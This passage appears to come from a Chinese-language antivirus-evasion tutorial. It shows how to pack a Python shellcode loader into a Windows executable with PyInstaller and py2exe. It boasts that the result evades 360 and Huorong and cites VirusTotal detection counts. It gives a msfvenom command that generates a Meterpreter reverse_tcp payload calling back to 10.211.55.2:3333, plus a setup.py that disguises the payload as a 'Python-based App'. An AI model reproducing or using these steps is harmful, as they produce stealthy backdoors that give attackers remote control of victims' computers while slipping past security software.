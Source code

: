 ![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbwzJgGdqaia51MxaxYcZlplbmWV4S6oCUlZL0r9tGL7VjlfUG6ImX4vg/640?wx_fmt=png)

将`pyshellcode.py`复制到`C:\Python27_x86\pyinstaller`目录中，在该目录下执行命令编译 exe：

```
python pyinstaller.py -F -w pyshellcode.py
```

执行生成的 exe(文件大小 3.4M)，可上线，可过 360 和火绒

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbfBbVqnk1QrzPHNtFWM8q7aRByN5dqB3RmtGQ8KpTDEWd91HjaQbxgQ/640?wx_fmt=png)

msf 中可正常上线

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbcRdhjJOj5OK0iaqebZwsGNl3fZE1TAxPs9z1amWbZ4gkHGg7rtVIy1g/640?wx_fmt=png)

virustotal.com 中 19/70 个报毒

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbzPg1JoeY2eUMgFfGEfsEkWH50aXzH3lQXBgtEPoAJRmgr08B8xFCzA/640?wx_fmt=png)

2.2 方法 2：py2exe 打包编译 exe (VT 免杀率 10/69)
---------------------------------------

该方法借用了免杀工具`Python-Rootkit`的思路。

首先要在 windows 上安装 x86 版的 python。

**注意：必须使用 x86 版本 Python 2.7, 即使 Windows 是 x64 的，也要安装 32 位版本。**

我这里安装的是 Python 2.7.16 x86 windows 版：

```
https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi
```

之后安装 32 位 Py2exe for python 2.7

```
https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download
```

在 Windows 上安装 OpenSSL（可选）

msfvenom 生成 python payload

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.211.55.2  LPORT=3333  -f raw -o shell.py
```

创建文件 setup.py

```
from distutils.core import setup

import py2exe

setup(

name = "Meter",

description = "Python-based App",

version = "1.0",

console = ["shell.py"],

options = {"py2exe":{"bundle_files":1,"packages":"ctypes","includes":"base64,sys,socket,struct,time,code,platform,getpass,shutil",}},

zipfile = None

)
```